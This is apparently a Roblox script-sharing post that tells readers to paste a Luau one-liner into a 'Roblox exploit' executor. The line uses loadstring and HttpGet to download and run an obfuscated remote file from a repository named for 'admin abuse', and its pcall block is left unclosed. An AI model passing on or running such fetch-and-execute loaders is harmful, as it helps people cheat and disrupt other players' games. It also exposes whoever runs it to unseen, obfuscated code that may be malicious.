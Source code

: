 COPY THIS SCRIPT AND PASTE IT INTO YOUR ROBLOX EXPLOIT
```Luau
pcall(function()
loadstring(game:HttpGet("https://raw.githubusercontent.com/Roman304010/Free-admin_Abuse_BEST-SCRIPT/refs/heads/main/obf_fa051e666ec878ea.lua", true))()
```
